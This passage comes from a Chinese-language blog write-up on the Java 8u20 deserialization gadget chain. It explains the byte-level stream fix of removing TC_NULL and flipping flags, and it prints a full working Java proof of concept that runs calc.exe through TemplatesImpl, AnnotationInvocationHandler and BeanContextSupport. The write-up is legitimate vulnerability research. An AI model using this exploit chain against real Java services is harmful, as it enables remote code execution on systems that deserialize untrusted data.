

#### 导致的问题

导致了个什么问题呢？

> map的key是`AnnotationInvocationHandler`，而我们设置的map的value是`null`，这里AnnotationInvocationHandler反序列化完就`中断了map的反序列化`导致\*\*`null没有反序列化`\*\*，而程序直接来到了`ois.readInt();`，序列化数据in.in.pos却还在`null值`的位置，然后导致throw
>
> 然而这个null并不影响我们利用，所以直接把这个值删掉就好





> 这里再提一嘴null`为什么删掉没事`。以及为什么要删除

还记得上面那个序列化数据图的分析么，下图这里是同一个位置含义差不多，这里调试对应的地方是`TC_NULL`,而int对应的是`TC_BLOCKDATA`，所以我们要让`TC_BLOCKDATA`提前，而为什么没影响呢，`readInt()`后其实就标志着`BeanContextSupport`反序列化的结束，然后`紧接着要反序列化`add的第二个对象了（下图是指向`TemplatesImpl`的Handler），所以这里不能添加值，只能删除值，因为添加值会对后面的反序列化照成影响，而删除`TC_NULL`能在前面完成闭环。



#### 最简洁poc

大功告成，我们没有直接给`AnnotationInvocationHandler`改写一个writeObject，所以可以直接一个文件就可以执行了

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.ByteUtil;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.ReadWrite;
import ysoserial.payloads.util.Reflections;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.LinkedHashSet;

public class jdk8u20_poc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = (TemplatesImpl) Gadgets.createTemplatesImpl("calc.exe");
        InvocationHandler ih = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Override.class, new HashMap<>());

        Reflections.setFieldValue(ih,"type", Templates.class);
        Templates proxy = Gadgets.createProxy(ih,Templates.class);

        BeanContextSupport b = new BeanContextSupport();
        Reflections.setFieldValue(b,"serializable",1);
        HashMap tmpMap = new HashMap<>();
        tmpMap.put(ih,null);
        Reflections.setFieldValue(b,"children",tmpMap);


        LinkedHashSet set = new LinkedHashSet();//这样可以确保先反序列化 templates 再反序列化 proxy
        set.add(b);
        set.add(templates);
        set.add(proxy);

        HashMap hm = new HashMap();
        hm.put("f5a5a608",templates);
        Reflections.setFieldValue(ih,"memberValues",hm);

        byte[] ser = Serializer.serialize(set);

        byte[] nullReplace = new byte[]{0x70,0x77,0x04,0x00,0x00,0x00,0x00,0x78,0x71};

        byte[] flagsReplace = new byte[]{0x02,0x00,0x02};
        int i = ByteUtil.getSubarrayIndex(ser,flagsReplace);
        ser = ByteUtil.deleteAt(ser,i);
        ser = ByteUtil.addAtIndex(ser,i, (byte) 0x03);
        int j = ByteUtil.getSubarrayIndex(ser,nullReplace);
        ser = ByteUtil.deleteAt(ser,j);

        ReadWrite.writeFile(ser,"ser+.txt");
        byte[] bytes = ReadWrite.readFile("ser+.txt");
        Deserializer.deserialize(bytes);
    }
}
```



### 8u20修复

最后反射调用的方法只能是下面3个，导致不能调用sink点了



> 后言：其实我记录的比较简单，关于`导致的问题`这里得经过调试以及查看序列化源码才能得出，我最开始是看参考文章以为就那么回事，然后我是打算补全那个int数据的，也就是填充数据，然后发生了报错，以及感觉到一些疑点吧。反正就始终说服不了自己，主要就是参考文章里面删除那两个数据，为什么呢，为什么呢？？我知道是对齐int，但是会不会对其他数据照成影响呢？然后就自己琢磨哇，也是搞得明明白白了很爽。然后调试找序列化数据里面对应的位置，可以通过前后pos的值去找

**参考**

> <https://tttang.com/archive/1729/#toc>\_
